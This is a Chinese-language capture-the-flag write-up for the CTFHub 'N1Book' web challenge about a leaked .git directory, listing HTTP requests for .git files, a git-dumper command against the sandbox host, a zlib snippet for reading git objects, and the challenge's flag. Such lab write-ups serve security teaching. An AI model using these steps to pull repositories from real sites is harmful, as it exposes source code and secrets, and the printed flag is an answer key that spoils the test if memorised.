

### 题目名称：粗心的小李

题目来源：CTFHub（原题：N1Book-第一章Web入门-举足轻重的信息搜集-粗心的小李）

题目类别：Web

题目描述：



### 解题思路

打开页面，标题就是 Git测试，正文还直接写了一句：当前大量开发人员使用 git 进行版本控制，对站点自动部署，如果配置不当，可能会将 .git 文件夹直接部署到线上环境，这就引起了 git 泄露漏洞。这等于把考点写在脸上了。

验证一下：访问 /.git/HEAD，返回 200，内容是一行 `ref: refs/heads/master`，说明 .git 目录确实被部署到了线上。/.git/ 本身是 403（目录列表关了），但里面的具体文件都能直接取。

.git 泄露的危害在于，整个仓库连同历史提交都能被下载下来。线上页面里那一句写的是 very easy，但历史提交里的 index.html 是有 flag 的旧版本，所以要把仓库拉下来翻旧版本。

### 详细步骤

1. 打开首页，标题是 Git测试，正文提示配置不当会把 .git 文件夹部署到线上，下面那句写的是 very easy

2. 访问 /.git/HEAD 验证泄露

    ```
    /.git/HEAD    -> 200   "ref: refs/heads/master"
    /.git/config  -> 200
    /.git/index   -> 200
    /.git/        -> 403   目录列表关了，但文件能直接取
    ```

3. 用 git-dumper 把整个仓库拉下来

    ```bash
    git-dumper 'http://challenge-34c39f8af4e9c809.sandbox.ctfhub.com:10800/' gitdump
    ```

    它会去请求 .git/index，再根据 index 里的记录去取 .git/objects/xx/yyyy 这些对象文件

4. 这次一共拉到三个对象

    ```
    21/3b7e386e...  commit   155 字节
    f4/6fbac414...  tree      38 字节
    1e/0db5d96b...  blob    2396 字节
    ```

5. 如果机器上没装 git，最后那步 git checkout 会失败，但不影响读对象。git 的对象文件就是 zlib 压缩，头是小段明文

    ```python
    import zlib
    data = zlib.decompress(open(path, 'rb').read())
    head, _, body = data.partition(b'\x00')
    print(head)    # b'blob 2396'
    print(body)    # 真正的内容
    ```

6. 打开那个 blob，里面是旧版的 index.html，那句话的位置上写着 flag

    ```
    <p>小李好像不是很小心，经过了几次迭代更新就直接就把整个文件夹放到线上环境了:(</p>
    <p>n1book{git_looks_s0_easyfun}</p>
    ```

    而线上版本这一行是 very easy，所以光看页面是拿不到的

7. 得到 n1book{git_looks_s0_easyfun}，获得flag

### Payload

```
GET /.git/HEAD HTTP/1.1
GET /.git/index HTTP/1.1
GET /.git/objects/21/3b7e386e9b0b406d91fae58bf8be11a58c3f88 HTTP/1.1
```

一键拉取

```bash
git-dumper 'http://challenge-34c39f8af4e9c809.sandbox.ctfhub.com:10800/' gitdump
```

### flag

n1book{git_looks_s0_easyfun}

### 总结&反思
